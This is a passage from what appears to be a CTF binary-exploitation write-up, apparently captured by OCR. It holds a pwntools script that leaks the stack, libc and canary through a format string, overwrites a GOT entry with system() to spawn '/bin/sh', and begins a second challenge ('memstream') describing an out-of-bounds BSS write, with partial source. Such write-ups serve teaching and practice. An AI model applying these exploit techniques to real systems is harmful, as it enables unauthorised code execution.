 ```py
pause()

p.sendlineafter(b"Age: ", str(0).encode())
payload = b''
payload += b'%p:'*12
p.sendlineafter(b"Name: ", payload)
p.recvuntil(b"----------------\n")
p.recvuntil(b"----------------\n")
s = p.recvuntil(b":Age", True).split(b":")
print(s)
stack = int(s[0], 16)
log.success(f"stack @ {hex(stack)}")
libc.address = int(s[10], 16) - libc.libc_start_main_return 
log.success(f"libc base @ {hex(libc.address)}")
canary = int(s[8], 16)
log.success(f"canary @ {hex(canary)}")

p.sendlineafter(b": ", str((free_got) << 32).encode())
p.sendlineafter(b"Name: ", p64(libc.symbols['system'])[:6])

p.sendlineafter(b": ", str(0).encode())
p.sendlineafter(b"Name: ", b'/bin/sh')

p.interactive()
```

## **memstream**

### **[0x00] Description**

> Seek the file. Seek the flag

### **[0x01] Summary**

The binary is packed with [UPX binary packer](https://github.com/upx/upx). The vulnerability of binary is just `OOB Write` from binary `BSS`, but writing is possible for **lower address** than BSS. Because `memstream` has packed with upx, binary is mapped at upper address than libc. So we can overwrite `libc` BSS, this lead to libc leak and got overwrite.

### **[0x02] Solutions**

```c
#define MEM_MAX 0x1000

char g_buf[MEM_MAX];
off_t g_cur;

static void win() {
  system("/bin/sh");
}

void do_seek() {
  off_t cur = getval("Position: ");
  if (cur >= MEM_MAX) {
    puts("[-] Invalid offset");
    return;
  }
  g_cur = cur;
  puts("[+] Done");
}

void do_write() {
  int size = getval("Size: ");
```